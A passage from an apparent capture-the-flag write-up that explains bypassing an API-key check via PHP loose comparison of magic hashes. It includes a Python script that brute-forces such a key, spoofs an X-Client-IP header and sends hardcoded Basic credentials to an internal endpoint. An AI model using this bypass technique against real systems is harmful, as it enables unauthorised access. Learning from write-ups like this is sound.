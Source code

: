 And with that, we have the flag! Also, notice how the `Error Code` is printed despite us getting the flag suggesting the flaw that the developers made - PHP loose comparison and not immediately returning the invalid response. 


*Extra* - Below, I have also attached the final script I used to automate the win!
``` script.py
import hashlib
import requests
import re

headers = {
    "X-Client-IP" : "127.0.0.1",
    "Authorization" : "Basic dGhoMzgyNjcxODQ5OnNVcDNSUGE1NXcwIVJEXzk="
}

def findVulnerableHash():
    tryVal = 0
    while 1:
        m = hashlib.md5()
        concat = "DDL_SuP3RSecret" + str(tryVal)
        m.update(concat.encode())
        # hmac is only offset 0 to 3 [0:4]
        check = m.hexdigest()[0:4]
        print(tryVal, check)
        if re.match(r'0+[eE]\d+$', check):
            print("The valid value for api-key is", tryVal)
            return tryVal
        tryVal += 1

def sendRequest(api_key):
    headers["X-Api-Key"] = str(api_key)
    target = "https://draftdownlabs.com/internal/thh38267184code.php"
    r = requests.get(target, headers=headers)
    print("Response...")
    print(r.text)

api_key = findVulnerableHash()
sendRequest(api_key)
```

### Sidetracking... (Skip this if not interested)
With the email and password, I thought maybe I had to find an internal endpoint. But not knowing where to go, I checked the draftdownlabs' robots.txt since it was in scope.
```
User-agent: *
Disallow: /wp-admin
Disallow: /wp-admin/admin-ajax.php
Disallow: /wp-includes
Disallow: /wp-content/plugins
Disallow: /wp-content/cache
Disallow: /wp-content/themes
Disallow: /trackback
Disallow: /feed
Disallow: /comments
Disallow: /category/*/*
Disallow: */trackback
Disallow: */feed
Disallow: */comments
Disallow: /*?*
Disallow: /*?
Disallow: /tags/
Disallow: /portfolio_page/

# Google Image
```